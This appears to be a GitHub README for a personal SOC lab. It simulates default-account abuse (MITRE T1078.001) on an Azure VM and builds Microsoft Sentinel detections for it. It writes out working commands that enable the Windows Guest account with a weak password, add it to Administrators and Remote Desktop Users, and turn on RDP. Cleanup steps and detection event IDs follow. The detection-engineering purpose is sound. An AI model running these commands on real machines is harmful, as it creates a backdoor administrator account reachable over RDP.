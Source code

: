 # T1078.001 — Valid Accounts: Default Accounts

**MITRE ATT&CK Mapping:**  
- **Tactic:** Initial Access  
- **Technique:** T1078.001 — Valid Accounts: Default Accounts  
- **Link:** [MITRE ATT&CK T1078.001](https://attack.mitre.org/techniques/T1078/001/)

## 🧪 Atomic Red Team Simulation by Me

This test is part of my personal SOC detection engineering and investigation workflow.
I’m manually simulating a **default account abuse scenario** on an **Azure VM**, writing the detection logic in **Microsoft Sentinel**, and confirming end-to-end incident response capability.

> **Safety Notice:**
> All testing and simulation is performed strictly within a controlled lab environment (Azure VM in a Cyber Range) that I fully manage. **Never run these techniques on production systems.**

---

## 📑 Quick Links

* [SOC Investigation Log & Timeline](./soc-investigation-log.md)

---

## 🎯 Objective

* Simulate abuse of the default `Guest` account to gain local admin + RDP access.
* Trigger a custom detection rule in Microsoft Sentinel.
* Confirm an incident is created.
* Begin triage and investigation like a real SOC analyst.

---

## 🧰 Tools & Lab Environment

| Tool / Platform                     | Purpose                                             |
| ----------------------------------- | --------------------------------------------------- |
| **Microsoft Sentinel**              | Detection rules + Incident management               |
| **Log Analytics Workspace**         | Ingests Windows logs from VM                        |
| **Microsoft Defender for Endpoint** | Endpoint telemetry (optional, enabled if onboarded) |
| **Azure Virtual Machine**           | Victim host for test (Windows OS)                   |
| **PowerShell / CMD**                | Manual execution of Atomic test                     |
| **Event Viewer**                    | Local log validation                                |
| **KQL (Kusto Query Language)**      | Custom query logic for Sentinel analytics rules     |

> 🧪 The test is run **manually** in a Cyber Range VM I fully control.

---

## ⚙️ Atomic Test Details

### ✅ Test 1 — Enable Guest + RDP + Admin

* **Technique:** T1078.001
* **Platform:** Windows
* **Atomic GUID:** `99747561-ed8d-47f2-9c91-1e5fde1ed6e0`

#### Manual Execution:

```cmd
net user guest /active:yes
net user guest Password123!
net localgroup Administrators guest /add
net localgroup "Remote Desktop Users" guest /add
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v AllowTSConnections /t REG_DWORD /d 1 /f
```

---

### ✅ Test 2 — Activate Guest Only

* **Atomic GUID:** `aa6cb8c4-b582-4f8e-b677-37733914abda`

```cmd
net user guest /active:yes
```

---

## 🧼 Cleanup

```cmd
net user guest /active:no
net localgroup Administrators guest /delete
net localgroup "Remote Desktop Users" guest /delete
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v AllowTSConnections /f
```

---

## 🧠 My Detection Workflow

1. Create a **custom Sentinel rule** using KQL to detect:

   * Guest account activation (Event ID 4722)
   * Group membership change (Event ID 4732)
   * Registry changes related to RDP
2. Run the test manually on the victim VM.
3. Monitor Sentinel → confirm **incident is created**.
4. Investigate the alert using full SOC workflow.

---

## 🕵️ SOC Investigation Log

[Jump to Detailed Log & Timeline](#detailed-investigation-log--timeline)

* Review entities: host, user, account, IP
* Check `SecurityEvent` logs in Sentinel
* Look for Defender alerts or RDP telemetry
* Validate Guest was added to `Administrators`
* Look for any follow-up attacker actions
* Document findings

---

## 📍 Forensic Artifacts

| Artifact Type        | Expected Evidence                            |
| -------------------- | -------------------------------------------- |
| Windows Events       | 4722 (enabled account), 4732 (group change)  |
| Registry             | RDP keys modified (AllowTSConnections, etc.) |
| Network Traffic      | Port 3389 activity (if RDP attempted)        |
| Process/Command Logs | `net user`, `net localgroup`, `reg add`      |

---

## ✅ Outcome Checklist

1. [ ] Sentinel rule created
2. [ ] Atomic test run on Azure VM
3. [ ] Incident successfully triggered
4. [ ] Investigation completed
5. [ ] VM cleaned up or reverted

---

## 📚 References

* [MITRE ATT&CK - T1078.001](https://attack.mitre.org/techniques/T1078/001/)
* [Atomic Red Team - GitHub](https://github.com/redcanaryco/atomic-red-team)
* Microsoft Sentinel & Defender Documentation

---

## Detailed Investigation Log & Timeline

> *See [investigation.md](./soc-investigation-log.md) in this folder for the full analyst log, timeline, artifacts, screenshots, and triage details for this test.*

---
